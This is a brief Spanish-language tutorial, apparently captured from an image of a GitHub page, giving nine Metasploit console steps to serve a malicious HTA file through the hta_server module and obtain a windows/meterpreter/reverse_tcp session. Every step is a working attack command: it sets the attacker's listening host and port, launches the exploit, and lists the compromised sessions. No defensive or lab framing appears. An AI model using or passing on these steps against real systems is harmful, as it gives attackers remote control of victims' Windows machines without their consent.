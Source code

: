 1. Iniciamos msfconsole -> `msfconsole`
2. Usamos el exploit HTA_SEVER -> `use exploit/windows/misc/hta_server`
3. Conectamos nuestra IP -> `set lhost (tu ip)`
4. Establecemos el reverse_tcp -> `set payload windows/meterpreter/reverse_tcp`
5. Establecemos el host del servidor (nosotros) -> `set srvhost (tu ip)`
6. Establecemos el puerto (cualquiera que no este en uso) -> `set lport 8111`
7. Empezamos el exploit -> `exploit`
8. Y ya podemos ver los comandos que podemos usar usando el comando `help`
9. Para ver las sesiones activas -> `sessions`
